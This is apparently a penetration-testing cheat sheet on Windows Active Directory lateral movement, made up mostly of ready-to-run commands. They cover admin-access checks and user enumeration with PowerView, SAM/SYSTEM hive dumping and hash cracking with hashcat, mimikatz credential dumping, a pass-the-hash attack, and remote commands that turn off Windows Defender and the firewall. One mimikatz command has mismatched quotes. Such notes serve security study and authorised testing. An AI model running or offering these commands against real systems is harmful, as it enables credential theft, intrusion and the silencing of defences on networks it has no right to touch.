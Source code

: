 # Lateral Movement

## Using PowerView

> Don't forget to import the script bypassing powershell execution policy

To test if you have an admin access on the current machine:

 ```powershell
 Test-AdminAccess -Verbose
 ```

To see what srevers you have access to:
 
 
 ```powershell
 Find-DomainUserLocation
 ```

 ```powershell
 Invoke-Command -ComputerName dc -ScriptBlock{whoami /groups; hostname}
 ```
  Using PowerShell Remoting
  
  ```powershell
  Enter-PSSession -ComputerName dc
  ```
  
  ## After Getting Local Admin Access...
  
 
 ### Dumping SAM\SYSTEM files for offline cracking:
 
  > C:\Windows\System32\config\SAM


 > C:\Windows\System32\config\SYSTEM

Copying the files to the current directory:

 ```batch
 reg save HKLM\sam sam
 
 reg save HKLM\system system
 ```
 
 On Kali Linux use the `samdump2` tool:
 
 ```bash
 samdump2 system sam
 ```
 
 Take the hashes and crack them with hashcat:
 
 ```bash
 hashcat -D 2 -m 1000 hashes.txt rockyou.txt -r OneRuleToRuleThemAll.rule
 ```
 
### SAM and LSA w/ mimikatz
 
 ```powershell
 powershell -ep bypass
 
 . .\invoke-mimikatz.ps1
 
 Invoke-Mimikatz -Command '"privilege::debug" "token::elevate" "sekurlsa::logonpasswords' "lsadump::sam" "exit"'
  ```
Copy the NTLM of the users 😈
 
### Pass the Hash Attack w/ mimikatz


 ```powershell
 powershell -ep bypass
 
 . .\invoke-mimikatz.ps1
 
 Invoke-Mimikatz -Command '"sekurlsa::pth /user:student2 /domain:marvel /ntlm:<NTLM YOU COPIED> /run:powershell.exe"'
  ```
  
Create a session variable and disable defences:
  
  ```powershell
  
  $sess = New-PSSession -ComputerName FILESHARE
  
  Invoke-Command -ScriptBlock{Set-MpPreference -DisableRealTimeMonitoring $true} -session $sess
  
  
  Invoke-Command -ScriptBlock{Set-MpPreference -DisableIOAVProtection $true} -session $sess
  
  
  Invoke-Command -ScriptBlock{netsh advfirewall set allprofiles state off} -session $sess
  
  ```
